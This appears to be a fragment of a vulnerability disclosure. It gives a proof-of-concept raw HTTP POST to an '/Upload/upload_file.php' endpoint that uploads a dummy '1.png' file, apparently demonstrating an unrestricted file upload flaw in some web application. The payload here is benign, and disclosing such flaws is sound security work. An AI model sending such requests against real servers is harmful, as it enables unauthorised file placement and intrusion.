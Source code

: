 POC
---

    POST /Upload/upload_file.php?l=1 HTTP/1.1
    Host: x.x.x.x
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36
    Accept: image/avif,image/webp,image/apng,image/*,*/*;q=0.8
    Referer: x.x.x.x
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9,fil;q=0.8
    Cookie: think_language=zh-cn; PHPSESSID_NAMED=h9j8utbmv82cb1dcdlav1cgdf6
    Connection: close
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryfcKRltGv
    Content-Length: 164

    ------WebKitFormBoundaryfcKRltGv
    Content-Disposition: form-data; name="file"; filename="1.png"
    Content-Type: image/avif

    1
    ------WebKitFormBoundaryfcKRltGv--